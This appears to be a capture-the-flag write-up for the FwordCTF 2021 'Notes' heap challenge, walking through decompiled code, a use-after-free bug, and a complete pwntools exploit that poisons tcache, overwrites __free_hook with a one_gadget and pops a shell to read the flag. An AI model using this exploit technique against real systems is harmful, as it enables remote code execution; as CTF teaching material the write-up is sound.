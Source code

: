 # Notes

> You can always manage your notes ! !
> nc 40.71.72.198 1235



Given 2 files, the binary itself and libc version 2.27. From that version we know that this libc is using tcache bins. Lets try run and decompile the program. 

```
➜  Notes git:(main) ✗ ./task2 
Select an action
(1) create a note
(2) delete a note
(3) edit a note
(4) view a note
(5) exit
>> 
```

Same as usual "notes" challenge, this is heap exploitation task. Now reverse the binary using IDA.

**create()**

~~~C
unsigned int create()
{
  int nbytes; // [rsp+8h] [rbp-98h] BYREF
  int nbytes_4; // [rsp+Ch] [rbp-94h]
  char buf[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v4; // [rsp+98h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  nbytes_4 = read_index();
  if ( nbytes_4 == -1 || *((_QWORD *)&notes + nbytes_4) )
    return puts("wrong index");
  puts("size : ");
  printf(">> ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes <= 0 || nbytes > 143 )
    return puts("That's too much !");
  *((_QWORD *)&notes + nbytes_4) = malloc(nbytes);
  puts("content : ");
  printf(">> ");
  read(0, buf, (unsigned int)nbytes);
  buf[strlen(buf) - 1] = 0;
  return (unsigned int)strcpy(*((char **)&notes + nbytes_4), buf);
}
~~~

**delete()**

~~~C
int delete()
{
  int result; // eax

  result = read_index();
  if ( result != -1 )
  {
    free(*((void **)&notes + result));
    return puts("note deleted");
  }
  return result;
}
~~~

**edit()**

~~~C
int edit()
{
  int result; // eax
  size_t v1; // rax
  int v2; // [rsp+Ch] [rbp-4h]

  result = read_index();
  v2 = result;
  if ( result != -1 )
  {
    puts("New content : ");
    printf(">> ");
    v1 = strlen(*((const char **)&notes + v2));
    read(0, *((void **)&notes + v2), v1);
    return puts("note updated !");
  }
  return result;
}
~~~

**view()**

~~~C
int view()
{
  __int64 v0; // rax
  int index; // [rsp+Ch] [rbp-4h]

  index = read_index();
  v0 = *((_QWORD *)&notes + index);
  if ( v0 && index != -1 )
    LODWORD(v0) = puts(*((const char **)&notes + index));
  return v0;
}
~~~



The bug is **edit()** and **view()** function didnt check if the heap is freed or not. So we get **Use-After-Free** here. Theres some restriction in **create()**  that we cant allocate more than 143 bytes, but this is not a hard problem. Now jump into exploitation step



### Main Idea

The main idea of the exploitation is :

- Allocate 10 chunk with size 143 so that our chunk will placed at tcache and unsorted bin 
- free all the chunk
- Leak the main arena pointer in order to get libc base
- Allocate and free 2 chunk with size 8
- Edit the chunk with __free_hook address
- malloc with one_gadget address



### Exploitation

**solver.py**

~~~python
from pwn import *


# f = process("./task2")
f = remote("40.71.72.198", 1235)
ELF_libc = ELF("libc-2.27.so")

def malloc(idx, size, content):
	f.sendlineafter(">> ", "1")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(size))
	f.sendlineafter(">> ", str(content))

def free(idx):
	f.sendlineafter(">> ", "2")
	f.sendlineafter(">> ", str(idx))

def edit(idx, content):
	f.sendlineafter(">> ", "3")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(content))

def show(idx):
	f.sendlineafter(">> ", "4")
	f.sendlineafter(">> ", str(idx))




if len(sys.argv) > 2:
	gdb.attach(f, "c")

for i in range(10):
	malloc(i, 143, "")

for i in range(9):
	free(i)



show(7)
leak = f.recvline().strip()
leak = leak.ljust(8, "\x00")
leak = u64(leak)
libc = leak - 4111520 # main_arena
log.info("libc base @ " + hex(libc))
target = libc+ELF_libc.symbols['__free_hook']
log.info("__free_hook @ " + hex(target))
one_shot = libc + 0x4f432

# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL

# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a41c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


malloc(10, 8, "")
malloc(11, 8, "")
free(10)
free(11)
edit(11, p64(target).replace("\x00", ""))
malloc(12, 8, "")
malloc(13, 8, p64(one_shot).replace("\x00", ""))
free(12)

f.interactive()
~~~



```
➜  Notes git:(main) ✗ python solver.py 
[+] Opening connection to 40.71.72.198 on port 1235: Done
[*] '/home/syahrul/Desktop/Writeups/FwordCTF_2021/pwn/Notes/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base @ 0x7f31fe952000
[*] __free_hook @ 0x7f31fed3f8e8
[*] Switching to interactive mode
$ ls
flag.txt
task2
task2.c
ynetd
$ cat flag.txt
FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478}
$ 
```



**FLAG:** FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478} 
